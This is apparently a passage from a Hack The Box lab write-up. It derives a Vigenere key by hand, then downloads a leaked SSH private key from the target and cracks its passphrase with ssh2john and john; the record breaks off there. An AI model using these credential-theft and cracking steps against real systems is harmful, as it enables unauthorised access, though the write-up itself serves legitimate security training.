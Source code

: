 ## Derive encryption key w/ Vigenere Cipher (Vigenere Table)
- Vigenere Table
	```
	Plaintext:  Orestis - Hacking for fun and profit
	Ciphertext: Wejmvse - Fbtkqal zqb rso rnl cwihsf
	
	O Mapped to W = I
	r Mapped to e = N
	e mapped to j = F
	s mapped to m = U
	t mapped to v = C
	i mapped to s = K
	s mapped to e = M
	H mapped to F = Y
	a mapped to b = B
	c mapped to t = R
	k mapped to k = A
	i mapped to q = I
	n mapped to a = N

	Key = FUCKMYBRAIN

	```
	![]({{ page.img_path }}Pasted%20image%2020220818052843.png)
	![]({{ page.img_path }}Pasted%20image%2020220818052923.png)
	![]({{ page.img_path }}Pasted%20image%2020220818053003.png)
	![]({{ page.img_path }}Pasted%20image%2020220818053118.png)
	![]({{ page.img_path }}Pasted%20image%2020220818053208.png)
	![]({{ page.img_path }}Pasted%20image%2020220818053329.png)
	![]({{ page.img_path }}Pasted%20image%2020220818053409.png)
	![]({{ page.img_path }}Pasted%20image%2020220818053540.png)
	![]({{ page.img_path }}Pasted%20image%2020220818053645.png)
	![]({{ page.img_path }}Pasted%20image%2020220818053722.png)


## TCP/22 (SSH)
1. Download the key
	```
	┌──(root💀kali)-[~/htb/brainfuck/10.10.10.17/loot]
	└─# curl https://10.10.10.17/8ba5aa10e915218697d1c658cdee0bb8/orestis/id_rsa --insecure > id_rsa; chmod 600 id_rsa
	  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
	                                 Dload  Upload   Total   Spent    Left  Speed
	100  1766  100  1766    0     0  11118      0 --:--:-- --:--:-- --:--:-- 11106
	```
2. SSH w/ downloaded key
	```
	┌──(root💀kali)-[~/htb/brainfuck/10.10.10.17/loot]
	└─# ssh orestis@$ip -i id_rsa 
	Enter passphrase for key 'id_rsa': 
	```
3. Crack SSH pass
	```
	┌──(root💀kali)-[~/htb/brainfuck/10.10.10.17/loot]
	└─# /root/tools/john/run/ssh2john.py id_rsa > id_rsa_john
	┌──(root💀kali)-[~/htb/brainfuck/10.10.10.17/loot]
	└─# john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa_john